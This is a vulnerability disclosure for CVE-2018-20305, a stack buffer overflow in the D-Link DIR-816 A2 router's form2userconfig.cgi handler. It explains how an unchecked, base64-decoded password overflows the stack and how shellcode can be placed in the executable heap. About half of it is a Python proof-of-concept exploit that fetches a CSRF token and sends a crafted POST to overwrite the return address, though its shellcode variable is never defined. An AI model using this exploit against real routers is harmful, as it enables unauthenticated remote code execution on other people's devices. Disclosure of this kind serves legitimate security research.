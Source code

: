 # D-Link DIR-816 A2 Stack Overflow 
#### Vender & Firmware version ：D-Link 1.10 B05 
#### CVE-ID : CVE-2018-20305
#### Exploit Author : ScareCrowL 
#### Vendor Homepage : http://www.dlink.com.cn/
#### Hardware Link : http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816 
![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/DLINK.jpeg)
# Vulnerability Description
Stack-based buffer overflows found on d-link dir-816 A2 1.10 B05 devices allow arbitrary remote code execution without authentication.Embodied in the /goform/form2userconfig.cgi handler function, long password may lead to stack-based buffer overflow and cover the return address.
# Vulnerability Detail

In the route /goform/form2userconfig.cgi handler.The value of the parameter password is base64 decoded, and the result is stored on the stack.
The vendor only sets a password length limit on the front end, but does not check the password length for POST submission.

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/IDA.jpg)

There's no check on length of the password, and a very long input could lead to stack overflow and overwrite the return address:

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/GDB.jpg)

Fortunately, the heap is at fixed address with permission rwx. So we could build a very large HTTP header which contains the shellcode, and set the return address to that shellcode.

After running the poc, we easily get the shell.

![image](https://github.com/RootSoull/Vuln-Poc/blob/master/D-Link/DIR-816/GETSHELL.png)

# POC
```python
#!/usr/bin/env python
# POC code reference: https://github.com/PAGalaxyLab/VulInfo/tree/master/D-Link/DIR-816/stack_overflow_1

from pwn import *
import requests

# First, we need the CSRF token
r=requests.get('http://192.168.0.1/dir_login.asp')
for l in r.content.split('\n'):
    if 'tokenid' in l:
        q2 = l.rfind('"')
        q1 = l[:q2].rfind('"')
        tokenid = l[q1+1:q2]
print 'tokenid is %s' % tokenid

# The return address will be overwritten as newRet 
newRet = '\x00\x00\x00\x00'



pMy= "L"*156+ newRet

rn = "\r\n"
padding = "\x00\x00\x00\x00"

pBuf= "username=A&oldpass=&newpass="+b64e(pMy)+"&confpass="+'&modify=B&select=s0&hiddenpass=&submit.htm=Send&tokenid=%s'% tokenid

payload = "POST /goform/form2userconfig.cgi " + "HTTP/1.1" + rn
payload += "Host: 192.168.0.1"+rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x100 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += ("Content-Length: %d" % len(pBuf)) +rn
payload += 'Content-Type: application/x-www-form-urlencoded'+rn
payload += rn
payload += pBuf

p = remote('192.168.0.1', 80)
p.send(payload)
print p.recv()
```
